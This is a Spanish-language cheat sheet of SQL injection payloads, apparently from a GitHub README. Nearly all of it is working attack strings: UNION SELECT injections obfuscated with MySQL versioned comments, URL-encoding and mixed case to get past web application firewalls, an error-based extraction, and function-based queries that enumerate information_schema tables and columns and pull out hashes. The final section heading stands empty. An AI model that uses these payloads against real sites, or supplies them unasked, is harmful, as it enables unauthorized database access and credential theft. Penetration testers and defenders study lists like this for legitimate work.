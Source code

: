 ```
/**8**/and/**8**/0/**8**//*!50000union*//**8**//*!50000select*//**8**/+ numero de columnas +--+

+/*!50000%55nIoN*/+/*!50000%53eLeCt*/+

SELECT * FROM (SELECT count(*), CONCAT((SELECT database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y --

+uNiOn+(/*!/**/SeleCT*/+1,22,333...)+--+

%55%6e%49%6f%4e(/*!/**/%20SeleCT%20*/%2011,22,33,44,55,66,77,88,90,1010,1111,1212,1313,1414,1515,1616,1717,1818,1919....)

+/*✓*/UnIoN/*✓*/+/*✓*/AlL/*✓*/+(SeLeCt+1,2,3,%27soy%20vulnerable%27,5,6.....)+--+

+div+@a:=(current_user/**_**/())+UNION/**/DISTINCTROW+SELECT+1,2,@a,4+--+

%75nion/**)!*/sele%63%74/**)!*/+1,2,3....

/*!50000%75%6e%69on*/ %73%65%6cect 1,2,3,4,5--

+union(select+1,2,3,4,concat(column_name),6,...+from+information_schema.columns+where+table_name=%22columna%22+limit+1,1)+--+

+union(select+1,2,3,database(),concat(hash,0x3a,hash),6..+from(columna))+--+

```


## Inyecciónes sql usando funciones sql

### Sql inyection payload usando la función RPAD y SOUNDS LIKE 

`SELECT RPAD(table_name,50,'.') from information_schema.tables where table_schema sounds like database()`

### Sql inyection payload usando upper + reverse + right + sounds like para extraer información  

`select upper(reverse(right(reverse(table_name),100)))from information_schema.tables where table_schema sounds like database()`

### Sql inyection usando elt, doble Reverse, hex y unhex

`Select unhex(hex(reverse(reverse(elt(1, table_Name))))) from information_schema.tables`

### Sql inyection case

`SELECT CASE WHEN (1=1) THEN table_name ELSE '<a href=https://twitter.com/_Y000_>_Y00!_</a>' END from information_schema.tables`

### Sql inyection payload usando upper + reverse + right + sounds like

